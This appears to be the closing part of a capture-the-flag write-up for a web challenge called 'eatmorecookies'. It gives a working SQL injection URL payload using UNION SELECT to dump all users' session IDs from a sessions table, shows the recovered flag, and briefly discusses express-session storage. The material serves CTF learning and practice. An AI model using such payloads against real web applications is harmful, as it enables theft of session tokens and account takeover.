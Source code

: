 ```
CREATE TABLE eatmorecookies.cookies (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    flavor varchar(255) NOT NULL,
    name varchar(255) NOT NULL
);
```

Let's fix that:

# Final Payload

```
https://waynestateuniversity-ctf24-eatmorecookies.chals.io/searchcookies?cookies=" UNION SELECT TRUE, session_id, TRUE from sessions;--+"
```

And with this, the first TRUE statement will be left out of the query, then in the cookie flavor, instead of an actual cookie from the cookies table,
we will see the session_id of all users. One of these users has a "fake" session and the flag is in that user's session_id.

![image](https://github.com/Programmer231/WSUCTF2024/assets/51927329/e35ef1bc-893a-45e7-a2f9-bcbae95305b9)

```
{WSUCTF24:S3arching_Thr0ugh_Very_Expr3ssive_DBz}
```

# Resource

One thing that was a little different in this challenge was using express-session to store session_id's in a database.
Typically, cookies are just stored on the client, and signed by a backend when they need to be verified. No database is necessary.
When using express-session. It will give you a session identifier which is stored on the database, and it will also handle signing
the cookie for you using that identifier. This makes it vulnerable to sql injection though, especially if you can find the key, in that
case, you can sign cookies yourself.
(explained in part 2)

https://expressjs.com/en/resources/middleware/cookie-session.html
